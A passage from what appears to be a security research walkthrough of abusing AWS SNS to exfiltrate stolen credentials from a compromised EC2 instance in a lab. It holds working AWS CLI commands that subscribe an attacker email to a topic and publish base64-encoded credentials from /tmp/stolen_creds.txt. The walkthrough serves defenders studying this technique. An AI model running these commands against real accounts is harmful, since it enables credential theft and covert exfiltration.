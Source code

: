 Once this is complete, let’s attempt to create our SNS topic and the email address that will be used as our external receiver for the exfiltrated data.

Create Topic Command: ```TOPIC_ARN=$(aws sns create-topic --name "whitebox-sns-topic" --query 'TopicArn' --output text)```

Subscribe Command: ```aws sns subscribe --topic-arn "$TOPIC_ARN" --protocol email --notification-endpoint "adversary@protonmail.com"```

As shown above after the commands are run, we can then navigate to the inbox of the external email address to confirm subscription. Once confirmed, our external email address will now receive any messages sent to the `whitebox-sns-topic topic` which we plan to use for exfiltration.

![](/assets/images/aws-sns-abuse/image9.png)

**Exfiltrate Data via SNS Publish**  
At this point, we have gained access to an EC2 instance, snooped around to understand our environment, identified some services for abuse and some credentials that we want to obtain. Note that our previous steps could all have been accomplished via a simple Bash script that could be dropped on the compromised EC2 instance via our webshell, but this is broken down into individual steps for example purposes..

Next, we can take the data we stored in `/tmp/stolen_creds.txt`, base64 encode it and ship it to our adversary controlled email address via SNS.

Commands:

* Base64 encode contents: ```BASE64_CONTENT=$(base64 /tmp/stolen_creds.txt)``` 
* Publish encoded credentials to our topic: ```aws sns publish --topic-arn "$TOPIC_ARN" --message "$BASE64_CONTENT" --subject "Encoded Credentials from EC2"```

![](/assets/images/aws-sns-abuse/image7.png)

Once completed, we can simply check our inbox for these exfiltrated credentials.

![](/assets/images/aws-sns-abuse/image1.png)

Taking the payload from our message, we can decode it to see that it represents the credentials we found lying around on the EC2 instance.

![](/assets/images/aws-sns-abuse/image6.png)

As many adversaries may attempt to establish persistence or laterally move throughout the AWS environment and services, they would then be able to rely on this SNS topic to exfiltrate data for as long as permissions were in scope for the IAM user or role. Additionally, they could set up a recurring job that scans for data on this EC2 instance and continually exfiltrates anything interesting over time. There are many practical options in this scenario for additional chaining that could be done.

**Before continuing, we encourage you to use the following command to destroy your infrastructure once logging out of the SSH connection**: ```terraform destroy --auto-approve```

### Challenges for Adversaries:

Of course, there are many uncertaintiesin any whitebox testing that may prove as roadblocks or hurdles for a TA, both advanced and immature in knowledge, skills and abilities. It is also very dependent on the configuration and environment of the potential victim. Below are additional challenges that adversaries would face.

